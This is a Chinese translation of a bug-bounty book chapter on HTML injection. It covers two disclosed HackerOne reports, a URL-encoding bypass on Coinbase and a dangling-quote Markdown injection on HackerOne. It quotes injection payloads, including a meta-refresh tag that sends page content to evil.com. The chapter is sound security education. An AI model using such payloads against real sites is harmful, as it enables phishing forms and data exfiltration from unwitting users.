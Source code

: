 ## **五、HTML 注入**

>作者：Peter Yaworski
>
>譯者：飛龍
>
>協議：CC BY-NC-SA 4.0


## **描述**
超文本標記語言（HTML）注入有時也被稱為虛擬污染。這實際上是一個由站點造成的攻擊，該站點允許惡意用戶向其 Web 頁面注入 
<br>
HTML，並且沒有合理處理用戶輸入。換句話說，HTML 注入漏洞是由接收 HTML 
<br>
引起的，通常通過一些之後會呈現在頁面的表單輸入。這個漏洞是獨立的，不同於注入 Javascript，VBscript 等。
<p>
由於 HTML 是用於定義網頁結構的語言，如果攻擊者可以注入 HTML，它們基本上可以改變瀏覽器呈現的內容。有時，這可能會導致頁面外觀的完全改變，
<br>

或在其他情況下，創建表單來欺騙用戶，例如，如果你可以注入HTML，你也許能夠將`<form> `
<br>
標籤添加到頁面，要求用戶重新輸入他們的用戶名和密碼。然而，當提交此表單時，它實際上將信息發送給攻擊者。

---


### 1. Coinbase 評論
```
難度：低
URL： coinbase.com/apps
報告鏈接： https://hackerone.com/reports/104543
報告日期：2015.12.10
獎金：$200
```
描述：
對於此漏洞，報告者識別出 Coinbase 在呈現文本時，實際上在解碼 URI 的編碼值。對於那
<br>
些不熟悉它的人（我在寫這篇文章的時候），URI 中的字符是保留的或未保留的。根據維基
<br>
百科，保留字是有時有特殊意義的字符，如 `/` 和 `&` 。未保留的字符是沒有任何特殊意義的
<br>
字符，通常只是字母。

因此，當字符被 URI 編碼時，它將按照 ASCII 轉換為其字節值，並以百分號（`%`）開頭。所以，`/`變成`%2F`，`&`成為`%26`。另外，ASCII 
<br>
是一種在互聯網上最常見的編碼，直到 UTF-8 出現，它是另一種編碼類型。現在，回到我們的例子，如果攻擊者輸入 HTML：

```html
<h1> This is a test</h1>
```

Coinbase 實際上會將其渲染為純文本，就像你上面看到的那樣。但是，如果用戶提交了 URL 編碼字符，像這樣：

```
%3C%68%31%3E%54%68%69%73%20%69%73%20%61%20%74%65%73%74%3C%2F%68%31%3E
```
Coinbase 實際上會解碼該字符串，並渲染相應的字符，像這樣：

```
This is a test
```

使用它，報告者演示瞭如何提交帶有用戶名和密碼字段的 HTML 表單，Coinbase 會渲染他。如果這個用戶是惡意的，Coinbase 就會渲染一個表單，它將值提交給惡意網站來捕獲憑據（假設人們填充並提交了表單）。


>重要結論
>
>當你測試一個站點時，要檢查它如何處理不同類型的輸入，包括純文本和編碼文本。特別要注意一些接受 URI 編碼值，例如`%2f`>，並渲染其解碼值的站點，這裡是`/`。雖然我們不知道這個例子中，黑客在想什麼，它們可能嘗試了 URI 編碼限製字符，並註意到 Coinbase >會解碼它們。之後他們更一步 URL 編碼了所有字符。

[http://quick-encoder.com/url](http://quick-encoder.com/url) 是一個不錯的 URL 編碼器。你在使用時會注意到，它告訴你非限製字符不需要編碼，並且提供了編碼 URL 安全字符的選項。這就是獲取用於 COinbase 的相同編碼字符串的方式

---

### 2. HackerOne 無意識 HTML 包含
```
難度：中
URL：hackerone.com
報告鏈接：https://hackerone.com/reports/112935
報告日期：2016.1.26
獎金：$500
描述：
```

在讀完 Yahoo XSS 的描述（第七章示例四），我對文本編輯器中的 HTML 渲染測試產生了興
<br>
趣。這包含玩轉 HackerOne 的 Markdown 編輯器，在圖像標籤中輸入一些類似 ismap=
<br>
"yyy=xxx" 和 "'test" 的東西。這樣做的時候，我注意到，編輯器會在雙引號裡麵包含一個單
<br>
引號 - 這叫做懸置引號。
<p>
那個時候，我並沒有真正理解它的含義。我知道如果你在某個地方注入另一個單引號，兩個
<br>
引號就會被瀏覽器一起解析，瀏覽器會將它們之間的內容視為一個 HTML 元素，例如：
<br>

```html
<h1>This is a test</h1><p class="some class">some content</p>'
```
使用這個例子，如果你打算注入一個 Meta 標籤：
```html
<meta http-equiv="refresh" content='0; url=https://evil.com/log.php?text=
```
瀏覽器會提交兩個引號之間的任何東西。<br />
現在，結果是，這個已經在 HackerOne 的 [#110578](https://hackerone.com/reports/110578)報告中由 [intidc](https://hackerone.com/intidc) 公開。<p>

看到它公開之後，我有一點失望。<br />
根據 HackerOne，它們依賴於 Redcarpet（一個用於 Markdown 處理的 Ruby 庫）的實現，<br />
來轉義任何 Markdown 輸入的 HTML 輸出，隨後它會通過 React 組件<br />
的 dangerouslySetInnerHTML 直接傳遞給 HTML DOM（也就是頁面）。此外，React 是一個<br />
JavaScript 庫，可用於動態更新 Web 頁面的內容，而不需要重新加載頁面。<p>
DOM 指代用於有效 HTML 以及 格式良好的 XML 的應用程序接口。<br />
本質上，根據維基百科，DOM 是跨平台並且語言無關的約定，用於展示 HTML、XHTML 和 XMl 中的對象，並與其交互。<p>
在 HackerOne 的實現中，它們並沒有合理轉義 HTML 輸出，這會導致潛在的漏洞。<br />
現在，也就是說，查看披露，我覺得我應該測試一下心得代碼。我返回並測試了這個：
```html
[test](http://www.torontowebsitedeveloper.com "test ismap="alert xss" yyy="test"\ ")
```
它會變成
```html
<a title="'test" ismap="alert xss" yyy="test" ' ref="http://www.toronotwebsi\ tede
veloper.com">test</a>
```
你可以看到，我能夠將一堆 HTML 注入到 `<a>` 標籤中。<br />
所以，HackerOne 回滾了該修復版本，並重新開始轉義單引號了。
```
重要結論
僅僅是代碼被更新了，並不意味著一些東西修復了，而是還要測試一下。當部署了變更
之後，同時意味著新的代碼也可能存在漏洞。
此外，如果你覺得有什麼不對，一定要深入挖掘。我知道一開始的尾後引號可能是個問
題，但是我不知道如何利用它，所以我停止了。我本應該繼續的。我實際上通過閱讀
XSS Jigsaw 的 了解了 Meta 刷新利用。
```